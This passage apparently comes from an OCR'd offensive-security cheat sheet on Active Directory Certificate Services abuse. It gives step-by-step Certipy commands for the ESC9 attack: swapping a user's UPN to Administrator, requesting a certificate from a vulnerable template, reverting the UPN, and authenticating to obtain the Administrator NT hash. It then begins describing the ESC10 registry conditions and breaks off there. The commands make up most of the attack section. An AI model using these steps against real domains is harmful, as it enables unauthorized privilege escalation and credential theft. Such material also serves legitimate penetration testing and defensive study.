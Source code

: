  - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Administrator

### This modification does not violate constraints, given that Administrator@corp.local remains distinct as Administrator's userPrincipalName.

### Following this, the ESC9 certificate template, marked vulnerable, is requested as Jane:

 - certipy req -username jane@corp.local -hashes HASH -ca corp-DC-CA -template ESC9

### It's noted that the certificate's userPrincipalName reflects Administrator, devoid of any “object SID”.

### Jane's userPrincipalName is then reverted to her original, Jane@corp.local:

 - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn Jane@corp.local

### Attempting authentication with the issued certificate now yields the NT hash of Administrator@corp.local. The command must include -domain DOMAIN due to the certificate's lack of domain specification:

 - certipy auth -pfx adminitrator.pfx -domain corp.local

# ESC10 - Weak Certificate Mappings

### Two registry key values on the domain controller are referred to by ESC10:

#### 1) The default value for CertificateMappingMethods under HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel is 0x18 (0x8 | 0x10), previously set to 0x1F.

#### 2) The default setting for StrongCertificateBindingEnforcement under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc is 1, previously 0.

## Cases:

#### 1) When StrongCertificateBindingEnforcement is configured as 0.

#### 2) If CertificateMappingMethods includes the UPN bit (0x4).
